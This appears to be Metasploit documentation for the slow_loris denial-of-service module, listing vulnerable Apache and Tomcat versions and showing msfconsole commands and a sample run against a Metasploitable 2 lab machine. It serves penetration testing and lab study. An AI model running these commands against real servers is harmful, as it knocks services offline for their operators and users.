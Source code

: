 ## Vulnerable Application

This module tries to keep many connections to the target web server open and hold them open as long as possible.

To test this module download and setup the Metasploitable 2 vulnerable Linux virtual machine available at [https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/).

Vulnerable app versions include:

- Apache HTTP Server 1.x and 2.x
- Apache Tomcat 5.5.0 through 5.5.29, 6.0.0 through 6.0.27 and 7.0.0 beta

## Verification Steps

1. Start msfconsole
2. Do: `use auxiliary/dos/http/slow_loris`
3. Do: `set RHOST`
4. Do: `run`
5. Visit server URL in your web-browser.

## Scenarios

### Apache/2.2.8 - Ubuntu 8.04

```
msf > use auxiliary/dos/http/slow_loris
msf auxiliary(slow_loris) > show options 

Module options (auxiliary/dos/http/slow_loris):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HEADERS  10               yes       The number of custom headers sent by each thread
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   THREADS  1000             yes       The number of concurrent threads

msf auxiliary(slow_loris) > set RHOST 192.168.216.129
RHOST => 192.168.216.129
msf auxiliary(slow_loris) > run

[*] 192.168.216.129:80 - Executing requests 1 - 1000...

```
